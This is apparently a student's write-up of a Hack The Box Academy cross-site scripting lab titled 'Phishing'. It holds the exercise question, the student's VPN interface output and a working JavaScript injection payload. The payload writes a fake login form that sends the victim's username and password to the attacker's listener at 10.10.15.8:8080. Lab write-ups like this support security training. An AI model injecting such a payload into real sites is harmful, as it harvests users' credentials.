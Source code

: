 # [Cross-Site Scripting (XSS)](https://academy.hackthebox.com/module/details/103)

## Exercise - Phishing

### Questions

#### Question #01

**Question**

Try to find a working XSS payload for the image URL form found at `/phishing` in the above server, and then use what you learned in this section to prepare a malicious URL that injects a malicious login form. Then visit `/phishing/send.php` to send the URL to the victim, and they will log into the malicious login form. If you did everything correctly, you should receive the victim's login credentials, which you can use to login to `/phishing/login.php` and obtain the flag.

![Firefox - Phishing Homepage](./assets/screenshots/cross_site_scripting_firefox_phishing_homepage.png)

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-iprwdllnsl]─[/tmp/tmpserver]
└──╼ [★]$ ifconfig tun0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.15.8  netmask 255.255.254.0  destination 10.10.15.8

[SNIP]
```

```javascript
document.write('<h3>Please login to continue</h3><form action=http://10.10.15.8:8080><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form> <!-- 
```
